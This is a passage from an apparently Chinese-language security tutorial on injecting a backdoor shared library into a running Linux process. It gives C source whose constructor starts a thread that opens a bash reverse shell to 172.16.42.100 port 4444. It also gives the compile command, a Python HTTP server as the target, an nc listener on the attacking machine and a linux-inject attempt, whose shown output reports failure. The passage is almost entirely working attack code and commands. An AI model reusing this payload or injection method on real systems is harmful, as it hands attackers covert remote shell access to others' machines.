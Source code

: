 

### 1.5 使用多线程编写poc

修改poc为多线程版本，将后门代码与正常逻辑分离执行，这样就不会影响正常的线程

```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>

void shell()
{
   printf("I just got loaded\n");
   system("bash -c \"bash -i >& /dev/tcp/172.16.42.100/4444 0>&1\"");
}


__attribute__((constructor))
void loadMsg()
{
   pthread_t thread_id;
   pthread_create(&thread_id,NULL,shell,NULL);
}
```

**编译：**

```bash
➜ clang -std=gnu99 -ggdb -D_GNU_SOURCE -shared -o poc2.so -lpthread -fPIC poc2.c
poc2.c:17:4: warning: implicit declaration of function 'pthread_create' is invalid in C99 [-Wimplicit-function-declaration]
```

**启动一个被注入的python进程：**

```bash
 python3 -m http.server 1111
```

**攻击机监听：**

```bash
nc -lvvp 4444
```



**进程注入：**

```bash
➜ ps -ef | grep 1111 | grep -v grep
root       1333   1299  0 11:53 pts/1    00:00:00 python3 -m http.server 1111
➜ ./linux-inject/inject -p 1333 ./poc2.so
targeting process with pid 1333
could not inject "./poc2.so
```
